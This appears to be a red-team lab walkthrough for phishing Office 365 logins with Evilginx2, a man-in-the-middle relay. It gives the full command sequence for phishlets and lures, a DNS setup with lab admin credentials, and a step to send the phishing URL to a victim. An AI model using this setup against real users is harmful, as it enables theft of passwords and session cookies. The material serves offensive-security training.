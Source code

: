 # Initial Access - Phishing - Evilginx2

- We can use Evilginx2 (https://github.com/kgretzky/evilginx2) for phishing attacks.

- Evilginx acts as a relay/man-in-the-middle between the legit web page and the target user. The user always interacts with the legit website and Evilginx captures usernames, passwords and authentication cookies.

- It uses phishlets that are configuration files for specific target domains.
These are YAML files that specify conditions like hosts, filters, structure
of authentication cookies and credentials.

#### Starting Evilginx2

- Evilginx2 is already setup on the student VMs. We can use the following commands.
- Start evilginx2:
```
evilginx2 -p C:\AzAD\Tools\evilginx2\phishlets
```
- Configure the domain:
```
config domain studentx.corp
```
- Set the IP for the evilginx server:
```
config ip 172.16.x.x
```
- Use the template for Office 365:
```
phishlets hostname o365 login.studentx.corp
```
- Verify the DNS entries:
```
phishlets get-hosts o365
```

#### Setup DNS
You can access DNS Server by browsing to ```http://172.16.2.50:5380/``` from your student VM and using the following details:
```
username: admin
password: admin@123
```

- Now goto ```Zones > Add Zone``` and create zone ```Student213.corp```
- Edit Name Server and Statement of Authority and set values to - 172.16.2.50
- Now add two A Records
  - ```login.login``` pointed to local IPv4
  - ```www.login``` pointed to local IPv4

**MAKE SURE TO KILL XAMPP 365 STEALER!**

#### next
- Copy the certificate and private key - o365.crt and o365.key from:
```C:\studentx\.evilginx\crt``` to ```C:\studentx\.evilginx\crt\login.studentx.corp```

- Enable phishlets:
```phishlets enable o365```
-  Create the phishing URL (tied to an ID):
```lures create o365```
- Get the phishing URL
```lures get-url <ID>```
- Share the URL with the victim. (For the lab, send an email using your personal email).
